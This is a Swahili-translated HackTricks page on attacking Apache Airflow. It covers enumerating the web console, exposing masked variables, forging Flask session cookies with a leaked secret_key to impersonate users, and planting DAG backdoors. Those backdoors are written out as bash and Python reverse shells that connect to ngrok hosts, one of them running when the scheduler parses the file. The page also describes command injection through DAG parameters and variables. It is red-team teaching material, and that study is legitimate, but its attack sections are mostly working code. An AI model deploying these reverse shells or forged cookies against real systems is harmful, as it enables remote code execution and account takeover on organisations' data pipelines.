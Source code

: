 # Apache Airflow Security

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Basic Information

[**Apache Airflow**](https://airflow.apache.org) inatumika kama jukwaa la **kuandaa na kupanga mipango ya data au kazi**. Neno "kuandaa" katika muktadha wa mipango ya data linaashiria mchakato wa kupanga, kuratibu, na kusimamia kazi ngumu za data zinazotokana na vyanzo mbalimbali. Lengo kuu la mipango hii ya data iliyopangwa ni kutoa seti za data zilizopangwa na zinazoweza kutumika. Seti hizi za data zinatumika sana na maombi mengi, ikiwa ni pamoja na lakini sio tu zana za akili ya biashara, sayansi ya data na mifano ya kujifunza mashine, ambazo zote ni msingi wa utendaji wa maombi makubwa ya data.

Kwa msingi, Apache Airflow itakuruhusu **kupanga utekelezaji wa msimbo wakati kitu** (tukio, cron) **kinatokea**.

### Local Lab

#### Docker-Compose

Unaweza kutumia **faili ya usanidi ya docker-compose kutoka** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) kuanzisha mazingira kamili ya apache airflow docker. (Ikiwa uko kwenye MacOS hakikisha unatoa angalau 6GB ya RAM kwa VM ya docker).

#### Minikube

Njia moja rahisi ya **kufanya kazi na apache airflo**w ni kuikimbia **na minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflow Configuration

Airflow inaweza kuhifadhi **taarifa nyeti** katika usanidi wake au unaweza kupata usanidi dhaifu ulio katika mahali:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### Airflow RBAC

Kabla ya kuanza kushambulia Airflow unapaswa kuelewa **jinsi ruhusa zinavyofanya kazi**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Attacks

#### Web Console Enumeration

Ikiwa una **ufikiaji wa console ya wavuti** unaweza kuwa na uwezo wa kufikia baadhi au yote ya taarifa zifuatazo:

* **Variables** (Taarifa nyeti za kawaida zinaweza kuhifadhiwa hapa)
* **Connections** (Taarifa nyeti za kawaida zinaweza kuhifadhiwa hapa)
* Fikia kwenye `http://<airflow>/connection/list/`
* [**Configuration**](./#airflow-configuration) (Taarifa nyeti kama **`secret_key`** na nywila zinaweza kuhifadhiwa hapa)
* Orodha ya **watumiaji & majukumu**
* **Code ya kila DAG** (ambayo inaweza kuwa na taarifa za kuvutia)

#### Retrieve Variables Values

Variables zinaweza kuhifadhiwa katika Airflow ili **DAGs** ziweze **kufikia** thamani zao. Ni sawa na siri za majukwaa mengine. Ikiwa una **ruhusa za kutosha** unaweza kuzifikia kwenye GUI katika `http://<airflow>/variable/list/`.\
Airflow kwa kawaida itaonyesha thamani ya variable kwenye GUI, hata hivyo, kulingana na [**hii**](https://marclamberti.com/blog/variables-with-apache-airflow/) inawezekana kuweka **orodha ya variables** ambazo **thamani** zitakuwa zinaonekana kama **asterisks** kwenye **GUI**.

![](<../../.gitbook/assets/image (164).png>)

Hata hivyo, hizi **thamani** bado zinaweza **kupatikana** kupitia **CLI** (unahitaji kuwa na ufikiaji wa DB), **kutekeleza DAG** isiyo na mipaka, **API** inayofikia mwisho wa variables (API inahitaji kuwezeshwa), na **hata GUI yenyewe!**\
Ili kufikia hizo thamani kutoka kwenye GUI chagua tu **variables** unazotaka kufikia na **bonyeza kwenye Actions -> Export**.\
Njia nyingine ni kufanya **bruteforce** kwa **thamani iliyofichwa** kwa kutumia **uchujaji wa utafutaji** hadi upate:

![](<../../.gitbook/assets/image (152).png>)

#### Privilege Escalation

Ikiwa usanidi wa **`expose_config`** umewekwa kuwa **True**, kutoka **jukumu la Mtumiaji** na **juu** wanaweza **kusoma** **config kwenye wavuti**. Katika usanidi huu, **`secret_key`** inaonekana, ambayo inamaanisha mtumiaji yeyote mwenye hii halali wanaweza **kuunda cookie yao iliyosainiwa ili kujifanya kuwa akaunti nyingine yoyote ya mtumiaji**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG Backdoor (RCE katika Airflow worker)

Ikiwa una **ufikiaji wa kuandika** mahali ambapo **DAGs zimehifadhiwa**, unaweza tu **kuunda moja** ambayo itakutumia **reverse shell.**\
Kumbuka kwamba reverse shell hii itatekelezwa ndani ya **airflow worker container**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG Backdoor (RCE katika Airflow scheduler)

Ikiwa utaweka kitu kifanyike **katika mzizi wa msimbo**, wakati wa kuandika hii, kita **fanywa na scheduler** baada ya sekunde chache baada ya kukiweka ndani ya folda ya DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### Uundaji wa DAG

Ikiwa utafanikiwa **kushambulia mashine ndani ya klasta ya DAG**, unaweza kuunda **scripts za DAG** mpya katika folda ya `dags/` na zitakuwa **zinakopiwa katika mashine nyingine** ndani ya klasta ya DAG.

#### Uingiliaji wa Kode ya DAG

Unapotekeleza DAG kutoka kwa GUI unaweza **kupitisha hoja** kwake.\
Hivyo, ikiwa DAG haijakodishwa vizuri inaweza kuwa **na udhaifu wa Uingiliaji wa Amri.**\
Hivyo ndivyo ilivyotokea katika CVE hii: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Kila unachohitaji kujua ili **kuanza kutafuta uingiliaji wa amri katika DAGs** ni kwamba **parameta** zinapatikana kwa kode **`dag_run.conf.get("param_name")`**.

Zaidi ya hayo, udhaifu sawa unaweza kutokea na **mabadiliko** (zingatia kwamba kwa ruhusa ya kutosha unaweza **kudhibiti thamani ya mabadiliko** katika GUI). Mabadiliko yanapatikana kwa:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Ikiwa zinatumika kwa mfano ndani ya amri ya bash, unaweza kufanya uhamasishaji wa amri.

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
